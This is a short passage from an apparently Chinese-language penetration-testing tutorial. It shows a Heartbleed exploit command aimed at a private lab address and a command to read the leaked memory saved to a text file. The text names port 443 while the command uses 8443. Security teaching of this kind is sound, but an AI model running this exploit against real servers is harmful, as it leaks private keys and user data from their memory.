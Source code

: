     ![](img/7-2-2.jpg)
    
4.  我们要尝试利用`192.168.56.103 `的 443 端口，获得最大的泄露并保存输出到文本文件`hb_test.txt`。

    ```
    ./heartbleed -s 192.168.56.103 -p 8443 -f hb_test.txt -t 1
    ```
    
    ![](img/7-2-3.jpg)
    
5.  现在，如果我们检查`hb_test.txt`的内容：

    ```
    cat hb_test.txt
    ```
    